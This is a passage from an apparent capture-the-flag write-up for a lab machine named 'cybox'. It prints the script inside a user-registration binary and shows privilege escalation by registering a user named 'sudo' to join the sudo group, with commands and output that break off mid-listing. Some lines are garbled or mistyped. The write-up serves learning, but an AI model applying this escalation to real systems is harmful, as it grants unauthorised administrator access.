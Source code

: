 ```
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.jcr
.dynamic
.got.plt
.data
.bss
.comment

```
The `register` binary:
```bash
daemon@cybox:/opt$ strings register
strings: /opt/bitnami/common/lib/libz.so.1: no version information available (required by /usr/lib/i386-linux-gnu/libbfd-2.26.1-system.so)
#!/bin/bash
USERNAME=$1
if [ ! "$USERNAME" ]
hen
    /bin/echo -e "Syntax: Username"
    exit 1
if [[ "$USERNAME" =~ [^a-z] ]]; then
   /bin/echo -e "Think twice before putting something :)"
   exit 0
if /usr/bin/id "$USERNAME" >/dev/null 2>&1; then
    /bin/echo -e "User already exists :("
    exit 0
if [ ! "$(/bin/cat /etc/group | /bin/grep -w "$USERNAME")" ]
then
    /usr/sbin/groupadd "$USERNAME" 2>/dev/null
/usr/sbin/useradd -p "$(/usr/bin/openssl passwd -1 "$USERNAME")" -m "$USERNAME" -g "$USERNAME" -s /bin/bash 2>/dev/null
/usr/bin/maildirmake /home/"$USERNAME"/Maildir/ -R 2>/dev/null
/bin/chown "$USERNAME":"$USERNAME" /home/"$USERNAME"/Maildir/ -R 2>/dev/null
if [ $? -eq 0 ]; then
    /bin/echo -e "$USERNAME@cybox.company has been created successfully. The credentials are $USERNAME:$USERNAME. You should change your default password for security."
else
    /bin/echo -e "The string must contain a maximum of 32 characters."
```
This code creates a user and adds it to the group with the same name. So we need to create a user with help of it we can elevate the privileges. i.e sudo.

Now register the user `sudo`.
```
aemon@cybox:/opt$ ./registerlauncher sudo
sudo@cybox.company has been created successfully. The credentials are sudo:sudo. You should change your default password for security.
daemon@cybox:/opt$ su sudo
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

sudo@cybox:/opt$ sudo -l
[sudo] password for sudo: 
Matching Defaults entries for sudo on cybox:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sudo may run the following commands on cybox:
```